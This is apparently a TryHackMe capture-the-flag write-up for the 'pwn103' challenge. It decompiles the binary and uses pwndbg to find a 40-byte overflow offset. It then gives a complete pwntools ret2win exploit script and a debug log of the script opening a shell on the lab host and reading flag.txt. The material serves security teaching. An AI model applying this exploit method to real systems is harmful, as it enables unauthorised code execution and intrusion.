

Let's download the task file



Let's decompile the binary with ghidra. `general()` has a buffer overflow.

```c
void general(void){
  int iVar1;
  char local_28 [32];
  
  puts(&DAT_004023aa);
  puts(&DAT_004023c0);
  puts(&DAT_004023e8);
  puts(&DAT_00402418);
  printf("------[pwner]: ");
  __isoc99_scanf(&DAT_0040245c,local_28);
  iVar1 = strcmp(local_28,"yes");
  if (iVar1 == 0) {
    puts(&DAT_00402463);
    main();
  }
  else {
    puts(&DAT_0040247f);
  }
  return;
}
```

`admins_only()` seems interesting since it opens a shell for us. All we need to to is overflow the buffer at `general()` and return to `admins_only()`.

```c
void admins_only(void){
  puts(&DAT_00403267);
  puts(&DAT_0040327c);
  system("/bin/sh");
  return;
}
```

Let's fire up pwndbg and crash the program

```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn103/pwn103.pwn103 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢀⣾⣿⣿⢿⣿⣿⣿⣿⣿⣿⡄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢸⣿⣿⣧⣀⣼⣿⣄⣠⣿⣿⣿⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠘⠻⢷⡯⠛⠛⠛⠛⢫⣿⠟⠛⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣧⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢡⣀⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣆⣸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

  [THM Discord Server]

➖➖➖➖➖➖➖➖➖➖➖
1) 📢 Announcements
2) 📜 Rules
3) 🗣  General
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 3

🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Try harder!!! 💪

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401377 in general ()
```

We get the offset of the binary is 40

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Let's create a script to automate the process.

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = './pwn103.pwn103'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 40
admins_only = elf.sym.admins_only

payload = flat(
    asm('nop') * padding,
    p64(0x0000000000401016),
    admins_only
)

write('payload', payload)

# Send the payload
io.sendlineafter(b':', '3')
io.sendlineafter(b':', payload)

# Receive the flag
io.interactive()
```

Running the script on the remote server we get a shell and the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn103> python3 pwn103.py REMOTE 10.10.135.73 9003
[+] Opening connection to 10.10.135.73 on port 9003: Done
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-8hab75mr/step2 /tmp/pwn-asm-8hab75mr/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-8hab75mr/step3 /tmp/pwn-asm-8hab75mr/step4
/home/pl4int3xt/Documents/pwn/pwn103/pwn103.py:35: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b':', '3')
[DEBUG] Received 0x37e bytes:
    00000000  1b 5b 30 3b  33 34 6d e2  a3 bf e2 a3  bf e2 a3 bf  │·[0;│34m·│····│····│
    00000010  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    00000020  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  │····│····│····│····│
    00000030  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    00000040  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf 0a  │····│····│····│····│
    00000050  e2 a3 bf e2  a3 bf e2 a3  bf e2 a1 9f  e2 a0 81 e2  │····│····│····│····│
    00000060  a0 84 e2 a0  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  │····│····│····│····│
    00000070  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  84 e2 a0 84  │····│····│····│····│
    00000080  e2 a0 84 e2  a0 84 e2 a0  84 e2 a0 88  e2 a2 b9 e2  │····│····│····│····│
    00000090  a3 bf e2 a3  bf e2 a3 bf  0a e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    000000a0  a3 bf e2 a1  87 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  │····│····│····│····│
    000000b0  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  84 e2 a0 84  │····│····│····│····│
    000000c0  e2 a0 84 e2  a0 84 e2 a0  84 e2 a0 84  e2 a0 84 e2  │····│····│····│····│
    000000d0  a0 84 e2 a0  84 e2 a2 b8  e2 a3 bf e2  a3 bf e2 a3  │····│····│····│····│
    000000e0  bf 0a e2 a3  bf e2 a3 bf  e2 a3 bf e2  a1 87 e2 a0  │····│····│····│····│
    000000f0  84 e2 a0 84  e2 a0 84 1b  5b 30 3b 33  37 6d e2 a2  │····│····│[0;3│7m··│
    00000100  a0 e2 a3 b4  e2 a3 be e2  a3 b5 e2 a3  b6 e2 a3 b6  │····│····│····│····│
    00000110  e2 a3 be e2  a3 bf e2 a3  a6 e2 a1 84  1b 5b 30 3b  │····│····│····│·[0;│
    00000120  33 34 6d e2  a0 84 e2 a0  84 e2 a0 84  e2 a2 b8 e2  │34m·│····│····│····│
    00000130  a3 bf e2 a3  bf e2 a3 bf  0a e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    00000140  a3 bf e2 a1  87 e2 a0 84  e2 a0 84 1b  5b 30 3b 33  │····│····│····│[0;3│
    00000150  37 6d e2 a2  80 e2 a3 be  e2 a3 bf e2  a3 bf e2 a2  │7m··│····│····│····│
    00000160  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    00000170  e2 a3 bf e2  a1 84 1b 5b  30 3b 33 34  6d e2 a0 84  │····│···[│0;34│m···│
    00000180  e2 a0 84 e2  a2 b8 e2 a3  bf e2 a3 bf  e2 a3 bf 0a  │····│····│····│····│
    00000190  e2 a3 bf e2  a3 bf e2 a3  bf e2 a1 87  e2 a0 84 e2  │····│····│····│····│
    000001a0  a0 84 1b 5b  30 3b 33 37  6d e2 a2 b8  e2 a3 bf e2  │···[│0;37│m···│····│
    000001b0  a3 bf e2 a3  a7 e2 a3 80  e2 a3 bc e2  a3 bf e2 a3  │····│····│····│····│
    000001c0  84 e2 a3 a0  e2 a3 bf e2  a3 bf e2 a3  bf 1b 5b 30  │····│····│····│··[0│
    000001d0  3b 33 34 6d  e2 a0 84 e2  a0 84 e2 a2  b8 e2 a3 bf  │;34m│····│····│····│
    000001e0  e2 a3 bf e2  a3 bf 0a e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    000001f0  e2 a1 87 e2  a0 84 e2 a0  84 1b 5b 30  3b 33 37 6d  │····│····│··[0│;37m│
    00000200  e2 a0 98 e2  a0 bb e2 a2  b7 e2 a1 af  e2 a0 9b e2  │····│····│····│····│
    00000210  a0 9b e2 a0  9b e2 a0 9b  e2 a2 ab e2  a3 bf e2 a0  │····│····│····│····│
    00000220  9f e2 a0 9b  1b 5b 30 3b  33 34 6d e2  a0 84 e2 a0  │····│·[0;│34m·│····│
    00000230  84 e2 a2 b8  e2 a3 bf e2  a3 bf e2 a3  bf 0a e2 a3  │····│····│····│····│
    00000240  bf e2 a3 bf  e2 a3 bf e2  a1 87 e2 a0  84 e2 a0 84  │····│····│····│····│
    00000250  e2 a0 84 e2  a0 84 e2 a0  84 e2 a0 84  e2 a0 84 e2  │····│····│····│····│
    00000260  a0 84 e2 a0  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  │····│····│····│····│
    00000270  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a2  b8 e2 a3 bf  │····│····│····│····│
    00000280  e2 a3 bf e2  a3 bf 0a e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    00000290  e2 a3 a7 e2  a1 80 e2 a0  84 e2 a0 84  e2 a0 84 e2  │····│····│····│····│
    000002a0  a0 84 e2 a0  84 e2 a0 84  e2 a0 84 e2  a0 84 e2 a0  │····│····│····│····│
    000002b0  84 e2 a0 84  e2 a0 84 e2  a2 a1 e2 a3  80 e2 a0 84  │····│····│····│····│
    000002c0  e2 a0 84 e2  a2 b8 e2 a3  bf e2 a3 bf  e2 a3 bf 0a  │····│····│····│····│
    000002d0  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    000002e0  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  │····│····│····│····│
    000002f0  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    00000300  e2 a3 bf e2  a3 bf e2 a3  b6 e2 a3 86  e2 a3 b8 e2  │····│····│····│····│
    00000310  a3 bf e2 a3  bf e2 a3 bf  0a e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    00000320  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  │····│····│····│····│
    00000330  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  │····│····│····│····│
    00000340  e2 a3 bf e2  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  │····│····│····│····│
    00000350  a3 bf e2 a3  bf e2 a3 bf  e2 a3 bf e2  a3 bf e2 a3  │····│····│····│····│
    00000360  bf 0a 0a 20  20 5b 54 48  4d 20 44 69  73 63 6f 72  │··· │ [TH│M Di│scor│
    00000370  64 20 53 65  72 76 65 72  5d 1b 5b 30  6d 0a        │d Se│rver│]·[0│m·│
    0000037e
[DEBUG] Received 0xc4 bytes:
    00000000  0a e2 9e 96  e2 9e 96 e2  9e 96 e2 9e  96 e2 9e 96  │····│····│····│····│
    00000010  e2 9e 96 e2  9e 96 e2 9e  96 e2 9e 96  e2 9e 96 e2  │····│····│····│····│
    00000020  9e 96 0a 31  29 20 f0 9f  93 a2 20 41  6e 6e 6f 75  │···1│) ··│·· A│nnou│
    00000030  6e 63 65 6d  65 6e 74 73  0a 32 29 20  f0 9f 93 9c  │ncem│ents│·2) │····│
    00000040  20 52 75 6c  65 73 0a 33  29 20 f0 9f  97 a3 20 20  │ Rul│es·3│) ··│··  │
    00000050  47 65 6e 65  72 61 6c 0a  34 29 20 f0  9f 8f a0 20  │Gene│ral·│4) ·│··· │
    00000060  72 6f 6f 6d  73 20 64 69  73 63 75 73  73 69 6f 6e  │room│s di│scus│sion│
    00000070  0a 35 29 20  f0 9f a4 96  20 42 6f 74  20 63 6f 6d  │·5) │····│ Bot│ com│
    00000080  6d 61 6e 64  73 0a e2 9e  96 e2 9e 96  e2 9e 96 e2  │mand│s···│····│····│
    00000090  9e 96 e2 9e  96 e2 9e 96  e2 9e 96 e2  9e 96 e2 9e  │····│····│····│····│
    000000a0  96 e2 9e 96  e2 9e 96 0a  e2 8c a8 ef  b8 8f 20 20  │····│····│····│··  │
    000000b0  43 68 6f 6f  73 65 20 74  68 65 20 63  68 61 6e 6e  │Choo│se t│he c│hann│
    000000c0  65 6c 3a 20                                         │el: │
    000000c4
[DEBUG] Sent 0x2 bytes:
    b'3\n'
[DEBUG] Received 0x10 bytes:
    00000000  0a f0 9f 97  a3 20 20 47  65 6e 65 72  61 6c 3a 0a  │····│·  G│ener│al:·│
    00000010
[DEBUG] Sent 0x39 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000020  90 90 90 90  90 90 90 90  16 10 40 00  00 00 00 00  │····│····│··@·│····│
    00000030  54 15 40 00  00 00 00 00  0a                        │T·@·│····│·│
    00000039
[*] Switching to interactive mode

[DEBUG] Received 0x98 bytes:
    00000000  0a 2d 2d 2d  2d 2d 2d 5b  6a 6f 70 72  61 76 65 65  │·---│---[│jopr│avee│
    00000010  6e 5d 3a 20  48 65 6c 6c  6f 20 70 77  6e 65 72 73  │n]: │Hell│o pw│ners│
    00000020  20 f0 9f 91  8b 0a 2d 2d  2d 2d 2d 2d  5b 6a 6f 70  │ ···│··--│----│[jop│
    00000030  72 61 76 65  65 6e 5d 3a  20 48 6f 70  65 20 79 6f  │rave│en]:│ Hop│e yo│
    00000040  75 27 72 65  20 64 6f 69  6e 67 20 77  65 6c 6c 20  │u're│ doi│ng w│ell │
    00000050  f0 9f 98 84  0a 2d 2d 2d  2d 2d 2d 5b  6a 6f 70 72  │····│·---│---[│jopr│
    00000060  61 76 65 65  6e 5d 3a 20  59 6f 75 20  66 6f 75 6e  │avee│n]: │You │foun│
    00000070  64 20 74 68  65 20 76 75  6c 6e 2c 20  72 69 67 68  │d th│e vu│ln, │righ│
    00000080  74 3f 20 f0  9f a4 94 0a  0a 2d 2d 2d  2d 2d 2d 5b  │t? ·│····│·---│---[│
    00000090  70 77 6e 65  72 5d 3a 20                            │pwne│r]: │
    00000098

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: [DEBUG] Received 0x3b bytes:
    00000000  54 72 79 20  68 61 72 64  65 72 21 21  21 20 f0 9f  │Try │hard│er!!│! ··│
    00000010  92 aa 0a 0a  f0 9f 91 ae  20 20 41 64  6d 69 6e 73  │····│····│  Ad│mins│
    00000020  20 6f 6e 6c  79 3a 0a 0a  57 65 6c 63  6f 6d 65 20  │ onl│y:··│Welc│ome │
    00000030  61 64 6d 69  6e 20 f0 9f  98 84 0a                  │admi│n ··│···│
    0000003b
Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn103\n'
    b'pwn103.c\n'
flag.txt
pwn103
pwn103.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x13 bytes:
    b'THM{REDACTED ...}\n'
THM{REDACTED..}
$
```